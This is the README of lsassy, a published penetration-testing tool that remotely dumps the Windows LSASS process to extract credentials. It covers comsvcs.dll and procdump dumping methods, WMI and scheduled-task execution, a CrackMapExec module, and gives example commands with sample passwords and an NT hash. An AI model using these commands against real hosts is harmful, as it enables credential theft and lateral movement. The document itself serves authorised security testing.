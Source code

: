 # lsassy

[![PyPI version](https://d25lcipzij17d.cloudfront.net/badge.svg?id=py&type=6&v=1.1.5&x2=0)](https://pypi.org/project/lsassy/) [![Twitter](https://img.shields.io/twitter/follow/hackanddo?label=HackAndDo&style=social)](https://twitter.com/intent/follow?screen_name=hackanddo)

![CME Module example](https://github.com/Hackndo/lsassy/raw/master/assets/example.png)

Python library to remotely extract credentials. This [blog post](https://en.hackndo.com/remote-lsass-dump-passwords/) explains how it works.

You can check the [wiki](https://github.com/Hackndo/lsassy/wiki)

This library uses [impacket](https://github.com/SecureAuthCorp/impacket) project to remotely read necessary bytes in lsass dump and [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials.

| Chapters                                     | Description                                             |
|----------------------------------------------|---------------------------------------------------------|
| [Requirements](#requirements)                | Requirements to install lsassy from source              |
| [Installation](#installation)                | Installation commands from pip or from source           |
| [Basic Usage](#basic-usage)                  | Command line template for standalone version            |
| [Advanced Usage](#advanced)                  | Advanced usage (Dumping methods, execution methods, ...)|
| [CrackMapExec Module](#crackmapexec-module)  | Link to CrackMapExec module included in this repository |
| [Examples](#examples-1)                        | Command line examples for standalone and CME module     |
| [Issues](#issues)                            | Read this before creating an issue                      |
| [Acknowledgments](#acknowledgments)          | Kudos to these people and tools                         |
| [Contributors](#contributors)                | People contributing to this tool                        |

## Requirements

* Python >= 3.6
* [pypykatz](https://github.com/skelsec/pypykatz) >= 0.3.0
* [impacket](https://github.com/SecureAuthCorp/impacket)

## Installation

### From pip

```
python3.7 -m pip install lsassy
```

### From sources

```
python3.7 setup.py install
```

## Basic Usage

```
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target>
```

## Advanced

### Dumping methods

This tool can dump lsass in different ways.

Dumping methods (`-m` or `--method`)
* **0**: Try all methods (dll then procdump) to dump lsass, stop on success (Requires -p if dll method fails)
* **1**: comsvcs.dll method, stop on success (default)
* **2**: Procdump method, stop on success (Requires -p)
* **3**: comsvcs.dll + Powershell method, stop on success
* **4**: comsvcs.dll + cmd.exe method

#### comsvcs.dll method

This method **only uses built-in Windows files** to extract remote credentials. It uses **minidump** function from **comsvcs.dll** to dump **lsass** process.

This method can only be used when context has **SeDebugPrivilege**. This privilege is either in Powershell local admin context, or cmd.exe SYSTEM context.

Two execution methods can be used.
1. **WMIExec** with cmd.exe (no SeDebugPrivilege), or powershell (SeDebugPrivilege)
2. **ScheduledTasks** with SYSTEM context (SeDebugPrivilege)

#### Procdump method

This method uploads **procdump.exe** from SysInternals to dump **lsass** process. It will first try to execute
procdump using WMI, and if it fails it will create a remote task, execute it and delete it.

#### Examples

```bash
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 0 -p /path/to/procdump.exe
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 1
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 2 -p /path/to/procdump.exe
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 3
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 4
```

### Remote parsing only

lsassy can parse an already dumped lsass process.

```
lsassy [--hashes [LM:]NT] --dumppath /share/path/to/dump.dmp [<domain>/]<user>[:<password>]@<target>
```

## CrackMapExec module

I wrote a CrackMapExec module that uses **lsassy** to extract credentials on compromised hosts

CrackMapExec module is in `cme` folder : [CME Module](https://github.com/Hackndo/lsassy/tree/master/cme)

## Examples

### lsassy

```bash
# RunDLL Method
lsassy adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Procdump Method
lsassy -m 2 -p /tmp/procdump.exe adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Remote parsing only
lsassy --dumppath C$/Windows/Temp/lsass.dmp adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# NT Hash Authentication
lsassy --hashes 952c28bd2fd728898411b301475009b7 Administrator@desktop01.adsec.local
```

### CME Module

```
crackmapexec smb 10.0.0.0/24 -d adsec.local -u Administrator -p Passw0rd -M lsassy -o BLOODHOUND=True NEO4JPASS=bloodhound
```

### ChangeLog

```
v1.1.0
------
* Better execution process : --method flag has been added and described in help text
* Uses random dump name
* Chose between cmd, powershell, dll and/or procdump methods
* CME module is now using light lsassy WMIExec et TASKExec implementation
* Bug fixes

v1.0.0
------
* Built-in lsass dump
** Lsass dump using built-in Windows
** Lsass dump using procdump (using -p parameter)
* Add --dumppath to ask for remote parsing only
* Code refactoring
* Add --quiet to quiet output

v0.2.0
------
* Add BloodHound option to CME module (-o BLOODHOUND=True)
    - Set compromised targets as "owned" in BloodHound
    - Check if compromised users have at least one path to domain admin
* Custom parsing (json, grep, pretty [default])
* New --hashes option to lsassy
* Include CME module in repository
* Add credentials to CME database


v0.1.0
------
First release
```

## Issues

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

## Acknowledgments

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [SkelSec](http://twitter.com/skelsec) for Pypykatz, but also for his patience and help
* [mpgn](https://twitter.com/mpgn_x64) for his help and ideas

## Contributors

* [ITPPA](https://github.com/ITPPA/)
* [viaccoz](https://github.com/viaccoz)

